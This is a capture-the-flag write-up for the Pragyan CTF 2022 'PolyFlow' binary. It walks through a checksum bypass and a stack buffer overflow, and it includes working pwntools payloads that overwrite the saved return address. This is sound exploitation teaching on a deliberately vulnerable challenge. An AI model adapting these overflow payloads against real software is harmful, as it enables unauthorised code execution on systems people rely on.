 # Pragyan CTF 2022 - PolyFlow

Origin challenge link: https://ctf.pragyan.org/

You can also download challenge file in my repo: [Poly-flow.zip](Poly-flow.zip)

There will be 1 file in zip:

- Poly-flow

Download challenge and let's start!

# 1. Find bug

First, we will use `file` to check for basic information:

```
$ file Poly-flow
Poly-flow: ELF 32-bit LSB executable, Intel 80386, version 1 (GNU/Linux), statically linked, BuildID[sha1]=681641744fb6d6d68665b3a0a2a1ebac46415b0e, for GNU/Linux 3.2.0, not stripped
```

This is a 32-bit file without being stripped. Next, let's use `checksec` to check for all defences:

```
$ checksec Poly-flow
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

We can see that `Canary found` and `NX enabled`. Finally, let's fire up ghidra and decompile to understand how the program works. 

The main function will ask for input, then check it and if it's correct, we will have input function:

![main.png](images/main.png)

At check function, it will add 4 bytes in first 16 bytes of our input and compare the result with `0xdeadbeef`

![check.png](images/check.png)

The sum inside loop will work like this (hex format) on stack if we input `aaaabaaacaaadaaa`:

```
 a a a a           61 61 61 61
 a a a b    -->    61 61 61 62
 a a a c           61 61 61 63
 a a a d           61 61 61 64
-------------------------------
                   85 85 85 8a
```

Because the sum will result in 0x1xx so from `0x61*4 = 0x184 + 1 = 0x185`. And afterh the sum, if it's equal with `0xdeadbeef` we will go into input function:

![input.png](images/input.png)

The var `i.0` is a global and at the begining of program, its value is 0. We can notice that the local variable local_1c is defined just 20 bytes but we can input upto 36 bytes --> **Buffer Overflow**.

That's all we can find. Let's move on next part: Brainstorming!

# 2. Brainstorming

Of course the first thing we need to do is to make sure we can get to the input function. To do that, we need to satisfy the check function.

After that, we will Buffer Overflow to execute the input function 5 times so that `i.0` will have the value of 5 and the flag will be printed.

- Summary:
  1. Satisfy check() function
  2. Get flag

# 3. Exploit

### Stage 1: Satisfy check() function

As we know that in check(), it will add 4 bytes of first 16 bytes and then compare with `0xdeadbeef`. So we will split the 16 bytes into 4 bytes per line like above. 

First, we will not want it to be 0x1xx because that will make us confused. We will take each byte of `0xdeadbeef` and divided with 4 to get the proper value for each byte of input (Python code):

```
0xde / 4        = 55.5
(0xde - 2) / 4  = 55.0 = 0x37

0xad / 4        = 43.25
(0xad - 1) / 4  = 43.0 = 0x2b

0xbe / 4        = 47.5
(0xbe - 2) / 4  = 47.0 = 0x2f

0xef / 4        = 59.75
(0xef - 3) / 4  = 59.0 = 0x3b
```

So the stack will sum 4 byte like this (hex format):

```
37 2b 2f 3b
37 2b 2f 3b
37 2b 2f 3b
39 2c 31 3e
-----------
de ad be ef
```

But wait, the stack is in a reverse order with this so we will need to change all collumns like this:

```
3b 2f 2b 37
3b 2f 2b 37
3b 2f 2b 37
3e 31 2c 39
-----------
ef be ad de
```


And we get the payload for scanf():

```
payload1 = \x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39
```

Input this with pwntool and we jump into input() function.

<details>
<summary>Code snippet</summary>
<p>

```
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'
p.sendlineafter(b'passphrase: ', payload1)
```

</p>
</details>

And now, let's move on the final stage: Get flag!

### Stage 2: Get flag

We can see that after scanf() input 16 bytes, then `\n` byte is remain and will go into fgets. That's why we can just input scanf() and then we stop. So that we will add some payload for fgets at `payload1` above so that it will be passed to fgets after scanf.

We know we have **Buffer Overflow** so let's find the offset with cyclic first(). After a while trying, we know that offset is 28 and after 28 byte is saved eip.

We can also see that the global var `i.0` will be increased 1 when execute input() function. So we will want to overwrite the saved eip with the input() function to make `i.0` contains 5, which help us get the flag.

```
# scanf()
payload1 = b'\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3b\x2f\x2b\x37\x3e\x31\x2c\x39'

# fgets
payload1 += b'A'*(28)             # Padding
payload1 += p32(0x08049860)       # input function
p.sendlineafter(b'passphrase: ', payload1)

for i in range(4):
    p.sendline(payload1[16:])     # The same with padding and input() function
```

Full script: [solve.py](solve.py)

# 4. Get flag

![get_flag.png](images/get_flag.png)

Flag is `p_ctf{mUlT1Pl3_BuFf3R_Ov3rF|0w}`